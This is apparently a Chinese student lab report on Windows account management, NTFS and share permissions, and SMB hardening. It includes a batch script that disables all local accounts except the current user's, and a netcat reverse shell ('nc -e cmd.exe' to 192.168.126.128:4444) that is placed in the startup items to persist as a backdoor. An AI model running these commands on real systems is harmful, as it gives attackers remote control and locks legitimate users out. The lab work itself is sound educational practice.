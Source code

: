 # 作业1 互动创建用户

#### 脚本内容：

```bat
@echo off
set /p user= 请输入要创建的账户名: 
set /p password=请输入密码: 
net user %user% %password% /add

if %errorlevel% == 0 (
    echo 账户 %user% 创建成功！
) else (
    echo 账户创建失败！
)
pause
```



#### 尝试创建test1用户

![image-20250709111556036](images/image-20250709111556036.png)

#### 验证是否创建成功

![image-20250709111749017](images/image-20250709111749017.png)

# 作业二 互动修改密码

#### 脚本内容：

```
@echo off
set /p user=输入要修改密码的账号: 
set /p password=输入新的密码: 
net user %user% %password%
pause
```

#### 修改test1的密码

![image-20250709112505285](images/image-20250709112505285.png)

#### 使用新密码成功登录系统，密码修改成功

![image-20250709112625631](images/image-20250709112625631.png)



# 作业三 用户恶意脚本

#### 脚本内容：

```
@echo off
REM 获取当前用户
set currentUser=%username%

REM 获取所有本地用户
for /f "tokens=1" %%a in ('net user ^| find /v "管理员" ^| find /v "用户名"') do (
    REM 排除当前登录用户
    if /i not "%%a"=="%currentUser%" (
        REM 禁用账户
        net user "%%a" /active:no
        echo 用户 "%%a" 已禁用
    )
)

pause
```

#### 除了当前用户，其他所有用户都被禁用

![image-20250709114051175](images/image-20250709114051175.png)



# 作业4 后门生成

#### 软件：natcat  攻击方 window 10（192.168.126.128）    被攻击方window7（192.168.126.130）

#### 在两个系统都安装软件natcat并在Path设置环境变量

<img src="images/image-20250709164820877.png" alt="image-20250709164820877" style="zoom: 50%;" />

#### 在windows 10上创建脚本触发开始监听

```
@echo off
nc -lvp 4444
```

#### 在window 7上创建反向监听脚本

```
nc -e cmd.exe 192.168.126.128 4444
```

![image-20250709165605407](images/image-20250709165605407.png)

#### windows 10与window 7建立成功建立链接，win10可以通过命令行操作win7

![image-20250709165818378](images/image-20250709165818378.png)

#### 例如，在win10远程操作win7开启计算器   

![image-20250709165951252](images/image-20250709165951252.png)

#### 在win7上，计算器被成功打开

![image-20250709170131721](images/image-20250709170131721.png)

#### 在win7上把后门脚本放到开机启动项

![image-20250709193748742](images/image-20250709193748742.png)

#### 这样监听脚本就会随着开机，一起启动



# 作业5

#### 验证网络是否连通

![9a9236fde981e8966c32df0ca0adfd3b](images/9a9236fde981e8966c32df0ca0adfd3b.png)

#### 尝试远程登录管理员成功，但是普通用户wenjian无法登录

![6d3bf5bedd0e259159bbb068aed024f6](images/6d3bf5bedd0e259159bbb068aed024f6.png)

#### 把wenjian添加到远程组

![a544745bd06e565ed4a968ed514159eb](images/a544745bd06e565ed4a968ed514159eb.png)

#### 验证是否添加到远程组

<img src="images/73bf789c99cd4aa771b8595a475d6ae8.png" alt="73bf789c99cd4aa771b8595a475d6ae8" style="zoom: 50%;" />

#### wenjian远程登陆成功

<img src="images/cabf45e69f7313d875f804cad3a69871.png" alt="cabf45e69f7313d875f804cad3a69871" style="zoom:67%;" />



# 作业六

#### 创建student和teacher用户

![image-20250709185520988](images/image-20250709185520988.png)

#### 创建作业上传文件夹并禁用继承,而后删除其他不相关的用户

#### 给teacher读写的权限，给student写入的权限

<img src="images/image-20250709190118760.png" alt="image-20250709190118760" style="zoom:50%;" />

#### 验证实验：以学生账号登录，可以上传作业，但不能对作业进行修改，删除

![image-20250709190416385](images/image-20250709190416385.png)

#### 以老师账号登录，可以修改，上传，复制 ......

![image-20250709190635171](images/image-20250709190635171.png)



# 实验7

#### 在student创建一个文件夹，禁用继承并删除所有共享账户，只添加student

<img src="images/image-20250709190941511.png" alt="image-20250709190941511" style="zoom:80%;" />

#### 登录administrator查看该文件夹发现无法写入和查看

#### 在文件夹的高级安全设置中点击更改所有者，写入administrator，并勾选替换子容器和对象所有者

![image-20250709191305336](images/image-20250709191305336.png)

#### 成功替换权限，可以在管理员查看该文件夹

![image-20250709191403225](images/image-20250709191403225.png)



# 实验8

进入作业上传文件夹的高级共享设置，设置别名并给student设置共享权限，允许student完全控制

![image-20250709192012002](images/image-20250709192012002.png)

#### 在win7中以student用户访问此文件夹，可以修改而无法查看

![image-20250709192552584](images/image-20250709192552584.png)



# 实验9

#### 在注册表HKEY_Local_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters\

#### 右键新建REG_DWORD类型的AutoShareWks 键，值为 0

![image-20250709192949578](images/image-20250709192949578.png)

#### 关闭445服务

打开services.msc（服务管理窗口），并停止及禁用server服务，来禁止445端口的开放！



#### ![image-20250709193056005](images/image-20250709193056005.png)
